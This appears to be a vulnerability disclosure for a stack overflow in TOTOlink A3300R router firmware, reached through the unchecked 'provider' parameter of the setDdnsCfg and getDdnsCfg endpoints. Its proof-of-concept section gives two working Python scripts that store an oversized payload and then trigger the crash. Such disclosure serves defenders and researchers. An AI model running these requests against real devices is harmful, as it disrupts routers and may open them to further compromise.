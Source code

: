 ## Summary

A stack overflow vulnerability exists in the TOTOlink A3300R firmware. The `provider` POST parameter accepted by `setDdnsCfg` function is written to the configuration key `provider` via `Uci_Set_Str` without length or content validation. The stored value is later read via `getDdnsCfg `function and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & version

- Device: TOTOlink A3300R
- Firmware Version: V17.0.0cu.557_B20221024
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `Uci_Set_Str` and `Uci_Get_Str` functions that handle `provider`.

## Vulnerability details

The `setDdnsCfg` endpoint accepts a POST parameter `provider` and calls `Uci_Set_Str(19, "wan", "provider", v4)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_230725.png)

The `getDdnsCfg` endpoint retrieves the `provider` parameter using `Uci_Get_Str(19, "wan", "provider", v11)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_111744.png)

## POC

1. **Store `provider` **

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
payload = b"a"*0x1000
data = {"topicurl":"setDdnsCfg","enable":"1","provider":payload,"domain":"AA","username":"admin","password":"admin"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

2. **Trigger**

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"getDdnsCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

3. **result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_114256.png)
